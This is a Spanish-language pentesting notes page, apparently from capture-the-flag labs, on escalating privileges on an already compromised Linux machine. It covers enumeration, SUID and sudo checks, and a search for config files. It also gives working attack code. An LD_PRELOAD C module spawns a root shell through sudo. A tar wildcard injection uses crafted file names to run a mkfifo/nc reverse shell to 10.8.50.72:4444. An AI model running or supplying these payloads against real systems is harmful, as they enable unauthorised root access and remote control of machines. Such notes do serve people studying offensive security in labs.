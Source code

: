# Escalada de privilegios en Linux

Se definen en esta página las principales técnicas de escalada de privilegios en máquinas Linux.

Se supone siempre que acabamos de comprometer una máquina y tenemos acceso a ella con un usuario de bajos privilegios.

## Enumeración de la máquina comprometida.

Hay una serie de comandos que siempre debemos lanzar al comprometer una máquina.

Comenzamos.

### whoami, id, ifconfig, ip a

* El comando **whoami** nos dice que usuario somos.
* El comando **id**  nos dice que usuario somos, pero ademas nos muestra los grupos en los que estamos.
* El comando **ifconfig** nos dice la ip que tenemos. Si no coincide con la que hemos trabajado es que estamos en un contenedor.
* El comando **ip a** hace lo mismo que **ifconfig** cuando este no funciona. Depende de la versión de linux.

![](/.gitbook/assets/escal01.png)

### Datos del sistema. uname -a, cat /etc/lsb-release

* El comando **uname -a** nos devuelve la versión de Linux que se ejecuta. Si es antigua podemos buscar vulnerabilidades con **searchsploit**. 
* El comando **cat /etc/lsb-release** nos devuelve la información exacta de la distribución. Si es antigua podemos buscar vulnerabilidades con **searchsploit**. 

![](/.gitbook/assets/escal02.png)

## Técnicas rutinarias

### Buscar ficheros **config** o **backup**

Sobre todo si estamos en un directorio de aplicación php, podemos buscar por el patrón config. Es posible obtener donde se configura la aplicación con el usuario de base de datos.

```bash
# Desde el directorio actual
find . -name *config*
# todo el sistema
find / -name *config*
```

También se puede hacer lo mismo con la palabra buckup, buscando posibles zips.

## Revisar los permisos sudo

Si tenemos la contraseña del usuario, podemos ver si tiene permisos sudo con **sudo -l**. Podemos ver si nos podemos aprovechar de algún permiso sudo para escalar privilegios.

![](/.gitbook/assets/kio33.png)

## Buscar ficheros con permisos SUID

```bash
find / -perm -u=s -type f 2>/dev/null
find \-perm -4000 2>/dev/null
```

## Técnicas especificas.

### Sudo de ficheros binarios con la opción 

Si tenemos como opción en **sudo** la ejecución de un fichero binario y ademas tenemos la opción de enviar parametros en PRELOAD, ver la imagen:

![](/.gitbook/assets/sudo-preload.png)

Entonces podemos crearnos un módulo de preload malicioso. Creamos el fichero shell.c con el siguiente código c:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
 unsetenv("LD_PRELOAD");
 setgid(0);
 setuid(0);
 system("/bin/bash");
}
```

Luego lo compilamos como **shell.so**:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
``` 

Y ya podemos ejecutar el binario como sudo cargando el módulo:

```bash
sudo LD_PRELOAD=/home/webdeveloper/shell.so /usr/bin/sky_backup_utility
``` 

### Explotacion de comando **tar**:

```bash
server-management@vulnnet:/tmp$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.50.72 4444 >/tmp/f" > /home/server-management/Documents/rev.sh
server-management@vulnnet:/tmp$ touch "/home/server-management/Documents/--checkpoint=1"
server-management@vulnnet:/tmp$ touch "/home/server-management/Documents/--checkpoint-action=exec=sh rev.sh"
```